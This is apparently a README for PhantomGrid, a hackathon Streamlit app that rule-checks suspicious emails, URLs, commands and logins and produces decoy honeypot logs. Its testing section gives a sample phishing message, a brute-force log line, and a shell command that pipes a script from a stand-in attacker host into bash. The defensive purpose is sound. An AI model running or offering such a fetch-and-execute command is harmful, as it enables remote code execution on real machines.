


# PhantomGrid

**Turning deception into defense**

PhantomGrid is an AI-powered cyber deception agent built for the AMD Developer Hackathon. It analyzes suspicious cyber inputs such as phishing emails, suspicious URLs, commands, and login attempts, then explains the risk and generates safe decoy/honeypot-style logs.

The goal of PhantomGrid is to help users understand cyber threats quickly and demonstrate how deception-based defense can confuse attackers while protecting real systems.

---

## Live Demo

Try the deployed app here:

https://phantomgrid-ipu65t3kjzgij3uujeqbse.streamlit.app/

---

## Project Description

Modern cyber threats such as phishing, brute-force attacks, malicious commands, and suspicious URLs are difficult to analyze quickly, especially for beginners, students, and small teams.

PhantomGrid provides a simple AI-inspired cyber defense workflow:

1. User enters a suspicious email, URL, command, or login log.
2. PhantomGrid analyzes the input using rule-based threat detection.
3. The app classifies the threat type and assigns a risk score.
4. It explains why the input looks suspicious.
5. It generates a safe decoy/honeypot-style log to simulate a deception layer.
6. Detection history is stored locally for review.

This prototype currently uses a rule-based detection engine, with a clear upgrade path for future AI/LLM integration.

---

## Key Features

* Suspicious input analyzer
* Phishing and social engineering detection
* Suspicious command detection
* Brute-force login attempt detection
* Suspicious URL/file detection
* Risk score and risk level
* Plain-English threat explanation
* Decoy/honeypot log generation
* Detection history dashboard
* Clear history option
* Professional Streamlit UI
* Beginner-friendly local setup

---

## Tech Stack

* **Python** — core programming language
* **Streamlit** — web app interface
* **Regex / rule-based detection** — threat pattern matching
* **JSON file storage** — local detection history
* **GitHub** — source code hosting
* **Streamlit Community Cloud** — public deployment

---

## How PhantomGrid Works

```text
Suspicious Input
       ↓
Threat Detection Engine
       ↓
Threat Classification
       ↓
Risk Score + Explanation
       ↓
Decoy / Honeypot Log Generation
       ↓
Detection History Dashboard
```

---

## Threat Categories

PhantomGrid currently classifies inputs into the following categories:

| Threat Category               | Example                                                                   |
| ----------------------------- | ------------------------------------------------------------------------- |
| Phishing / Social Engineering | Fake login, urgent account verification, password reset scam              |
| Suspicious Command            | Dangerous shell commands, encoded payloads, privilege escalation patterns |
| Brute-force Login Attempt     | Repeated failed login attempts, password spraying indicators              |
| Suspicious URL / File         | Suspicious links, risky file extensions, IP-based URLs                    |
| Unknown / Low Confidence      | Inputs that do not strongly match current rules                           |

---

## Screenshots

Add screenshots here after testing the live app.

### Threat Analysis Example



### Detection History Dashboard



---

## How to Run Locally

### 1. Clone the repository

```bash
git clone https://github.com/ryogesh03/phantomgrid.git
cd phantomgrid
```

### 2. Install dependencies

```bash
pip install -r requirements.txt
```

If `requirements.txt` is not available, install Streamlit directly:

```bash
pip install streamlit
```

### 3. Run the app

```bash
python -m streamlit run app.py
```

The app will open in your browser at:

```text
http://localhost:8501
```

---

## Sample Inputs for Testing

### Phishing Example

```text
Dear Customer, unusual sign-in activity was detected on your account. Please click here to verify your account immediately or it will be suspended.
```

### Suspicious Command Example

```bash
curl https://evil.example.com/payload.sh | bash && chmod 777 /tmp/.hidden
```

### Brute-force Login Example

```text
Failed login for user root from 203.0.113.42 port 22 ssh2. Authentication failure — too many repeated attempts.
```

---

## Future Improvements

* Add AI/LLM-based threat explanation mode
* Integrate open-source models for deeper analysis
* Add exportable PDF/HTML threat reports
* Improve detection accuracy with more cyber threat patterns
* Add user-uploaded log file analysis
* Add MITRE ATT&CK mapping
* Improve dashboard analytics
* Explore AMD GPU/cloud-based model inference

---

## Hackathon

Built for the **AMD Developer Hackathon ACT II** on lablab.ai.

---

## Project Status

Current version: working Streamlit prototype
Deployment: live on Streamlit Community Cloud
Development mode: solo project
